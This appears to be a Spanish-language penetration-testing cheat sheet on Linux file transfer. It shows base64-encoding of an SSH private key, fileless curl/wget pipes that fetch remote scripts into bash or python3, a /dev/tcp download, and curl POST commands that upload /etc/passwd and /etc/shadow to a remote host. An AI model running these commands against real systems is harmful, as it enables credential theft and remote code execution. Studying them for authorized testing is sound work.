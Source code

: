 ## Linux

### Base64 Encode/decode
```bash
md5sum id_rsa
cat id_rsa | base64 -w 0;echo
echo -n 'LS0tLS...<SNIP>...S0tLQo=' | base64 -d > id_rsa
md5sum id_rsa # para verificar que el archivo está intacto
```
### Descargar archivos
#### cURL
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
Método Fileless
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
#### Wget
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
Método Fileless
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
`-q` quiet (reduce la salida de mensajes al mínimo) y `-O-` salida por `stdout` en lugar de archivo (en este caso, `-` significa stdout)
#### Bash (/dev/tcp)
Para versiones de bash superiores a la `2.04` podemos ejecutar lo siguiente: 
```bash
# Creamos descriptor de archivo
exec 3<>/dev/tcp/10.10.10.32/80
# Envíar HTTP GET Request al descriptor de archivo
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
# Escribir la respuesta
cat <&3
#exec 3<&- # Cierra el descriptor de archivo 3
```

#### SSH - SCP
Debe estar habilitado en nuestra `pwnbox` ssh
```bash
sudo systemctl enable ssh
scp [opciones] origen destino
```
### Subir archivos 
#### cURL + POST - HTTP
```bash
curl -X POST http://192.168.49.128:8000/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow'
```
#### cURL + POST - HTTPs
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
### Crear Servidor para transferir archivos
#### HTTP/HTTPS 
##### Envíar archivos - `http.server` - python3
```
```